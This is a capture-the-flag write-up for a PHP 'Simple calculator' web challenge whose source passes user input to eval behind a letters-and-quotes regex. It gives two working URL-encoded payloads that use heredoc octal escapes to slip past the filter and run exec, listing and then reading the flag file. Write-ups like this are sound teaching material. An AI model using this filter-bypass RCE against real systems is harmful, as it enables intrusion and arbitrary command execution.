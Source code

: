 ```yaml
---
title: L3AK CTF Web
layout: post
categories: [CTF, Writeup]
tags: [ctf,web]     # TAG names should always be lowercase
---
```

<span style="color:red">Challenge : </span> **`Simple calculator`**

<span style="color:red">Categorie : </span> **`Web`**

This was a simple PHP challenge, the source code was provided and it was simple to read and understand.

```php
<?php
function popCalc() {
if (isset($_GET['formula'])) {
$formula = $_GET['formula'];
if (strlen($formula) >= 150 || preg_match('/[a-z\'"]+/i', $formula)) {
return 'Try Harder !';
}
try {
eval('$calc = ' . $formula . ';');
return isset($calc) ? $calc : '?';
} catch (ParseError $err) {
return 'Error';
}
}
}$result = popCalc();
echo "Result: " . $result; 
?>
```

The goal is clear, we need to bypass the regex and get an RCE via the `formula` parameter. The payload must be less than 150 chars and contains no letters or quotes (’|“).

A quick search leeds to this great resource: [https://gist.github.com/ChrisPritchard/50ef7a6c79a2386037a77ccc4709d1ff](https://gist.github.com/ChrisPritchard/50ef7a6c79a2386037a77ccc4709d1ff)

it’s almost the same condition, so we just need to use the same approach to get our flag.

Find the flag : **`find flag*`** 

**`(<<<*%0A%5C145%5C170%5C145%5C143%0A*)(<<<*%0A%5C146%5C151%5C156%5C144%20%5C146%5C154%5C141%5C147%5C52%0A*)`**

And to get the flag : **`cat flag*`**

**`(<<<*%0A%5C145%5C170%5C145%5C143%0A*)(<<<*%0A%5C143%5C141%5C164%20%5C146%5C154%5C141%5C147%5C52%0A*)`**

<span style="color:red">Flag : </span> **`L3AK{PhP_Web_Ch@ll3ng3}`**
